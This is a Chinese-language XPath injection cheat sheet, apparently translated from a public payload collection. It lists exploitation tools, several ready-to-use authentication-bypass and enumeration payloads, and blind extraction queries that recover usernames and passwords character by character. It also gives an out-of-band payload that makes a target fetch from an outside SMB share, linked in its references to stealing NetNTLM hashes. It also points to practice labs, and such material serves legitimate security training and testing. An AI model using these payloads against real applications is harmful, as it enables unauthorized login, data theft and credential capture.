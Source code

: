 # XPath 注入

> XPath 注入是一种攻击技术，用于利用从用户输入构造 XPath（XML 路径语言）查询的应用程序来查询或导航 XML 文档。

## 概要

* [工具](#工具)
* [方法论](#方法论)
    * [盲注攻击](#盲注攻击)
    * [带外攻击](#带外攻击)
* [实验室](#实验室)
* [参考文献](#参考文献)

## 工具

* [orf/xcat](https://github.com/orf/xcat) - 自动化 XPath 注入攻击以检索文档
* [feakk/xxxpwn](https://github.com/feakk/xxxpwn) - 高级 XPath 注入工具
* [aayla-secura/xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - 使用预测文本的 xxxpwn 分支
* [micsoftvn/xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
* [Harshal35/XmlChor](https://github.com/Harshal35/XMLCHOR) - XPath 注入利用工具

## 方法论

类似于 SQL 注入，你需要正确终止查询：

```ps1
string(//user[name/text()='" +vuln_var1+ "' and password/text()='" +vuln_var1+ "']/account/text())
```

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
')] | //user/*[contains(*,'
') and contains(../password,'c
') and starts-with(../password,'c
```

### 盲注攻击

1. 字符串长度

    ```sql
    and string-length(account)=SIZE_INT
    ```

2. 使用 `substring` 访问字符，并使用 `codepoints-to-string` 函数验证其值

    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

### 带外攻击

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## 实验室

* [Root Me - XPath 注入 - 身份验证](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Authentication)
* [Root Me - XPath 注入 - 字符串](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-String)
* [Root Me - XPath 注入 - 盲注](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Blind)

## 参考文献

* [盗取 NetNTLM 哈希的地方 - Osanda Malith Jayathissa - 2017 年 3 月 24 日](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
* [XPath 注入 - OWASP - 2015 年 1 月 21 日](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))